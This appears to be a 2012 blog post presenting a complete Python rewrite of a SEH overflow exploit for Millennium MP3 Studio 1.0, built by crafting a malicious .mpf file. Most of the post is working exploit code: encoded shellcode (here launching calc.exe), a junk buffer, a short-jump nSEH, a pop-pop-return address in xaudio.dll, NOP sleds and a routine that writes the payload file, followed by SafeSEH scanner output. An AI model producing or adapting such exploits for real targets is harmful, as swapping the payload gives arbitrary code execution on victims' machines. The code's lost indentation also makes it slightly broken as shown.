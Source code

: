 Millennium MP3 Studio .mpf File Parsing SEH Overflow
====================================================
date: 02/Sep/2012
summary: Millenium MP3 Studio SEH overflow via a pop-pop-return overwrite.
tags: code, exploit

## Introduction

The Millennium MP3 Studio version 1.0 is prone to a SEH overflow vulnerability. Processing specially-crafted `.mpf` files could trigger a SEH overwrite that could be leveraged further to gain arbitrary code execution. The exploit for this vulnerability has been documented at [EDB: 9298](http://www.exploit-db.com/exploits/9298/)

## Exploit Code

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb9298.mpf"

# msfpayload windows/exec CMD=calc.exe EXITFUNC=seh R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 227 (iteration=1)

calc = ("\xbb\x34\x46\x73\x3a\xda\xd2\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x33\x31\x5a\x12\x83\xea\xfc\x03\x6e\x48\x91\xcf\x72" +
"\xbc\xdc\x30\x8a\x3d\xbf\xb9\x6f\x0c\xed\xde\xe4\x3d\x21" +
"\x94\xa8\xcd\xca\xf8\x58\x45\xbe\xd4\x6f\xee\x75\x03\x5e" +
"\xef\xbb\x8b\x0c\x33\xdd\x77\x4e\x60\x3d\x49\x81\x75\x3c" +
"\x8e\xff\x76\x6c\x47\x74\x24\x81\xec\xc8\xf5\xa0\x22\x47" +
"\x45\xdb\x47\x97\x32\x51\x49\xc7\xeb\xee\x01\xff\x80\xa9" +
"\xb1\xfe\x45\xaa\x8e\x49\xe1\x19\x64\x48\x23\x50\x85\x7b" +
"\x0b\x3f\xb8\xb4\x86\x41\xfc\x72\x79\x34\xf6\x81\x04\x4f" +
"\xcd\xf8\xd2\xda\xd0\x5a\x90\x7d\x31\x5b\x75\x1b\xb2\x57" +
"\x32\x6f\x9c\x7b\xc5\xbc\x96\x87\x4e\x43\x79\x0e\x14\x60" +
"\x5d\x4b\xce\x09\xc4\x31\xa1\x36\x16\x9d\x1e\x93\x5c\x0f" +
"\x4a\xa5\x3e\x45\x8d\x27\x45\x20\x8d\x37\x46\x02\xe6\x06" +
"\xcd\xcd\x71\x97\x04\xaa\x80\x66\x95\x26\x14\xd1\x4c\x0b" +
"\x78\xe2\xba\x4f\x85\x61\x4f\x2f\x72\x79\x3a\x2a\x3e\x3d" +
"\xd6\x46\x2f\xa8\xd8\xf5\x50\xf9\xba\x98\xc2\x61\x13\x3f" +
"\x63\x03\x6b")

# 50B jump to avoid CSEH and a 4B hole @ 0012F930
# jumps directly from nseh to nop sled > shellcode
junk = "A"*4112
nseh = pack ('<I', 0x909032EB)# short jump 50B
cseh = pack ('<I', 0x1001FFC7)# p/p/r 1001FFC7 xaudio.dll
nops = "\x90"*80

'''
# 8B jump to avoid CSEH and land in the first NOP sled of 12B
# another 8B jump from there to avoid a 4B hole @ 0012F930 and land in the final NOP sled > shellcode
junk = "A"*4112
nseh = pack ('<I', 0x909008EB)# short jump 8B
cseh = pack ('<I', 0x1001FFC7)# p/p/r 1001FFC7 xaudio.dll
nops = "\x90"*12
jump = pack ('<I', 0x909008EB)# short jump 8B
nops2 = "\x90"*40
'''

sploit = junk+nseh+cseh+nops+calc

try:
handle = open (file, 'w')
handle.write (sploit)
handle.close ()
print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
print "[-] exception!"

'''
/SafeSEH Module Scanner, item 30
 SEH mode=/SafeSEH OFF
 Base=0x10000000
 Limit=0x10044000
 Module version=3, 0, 7, 0
 Module Name=xaudio.dll
'''
```
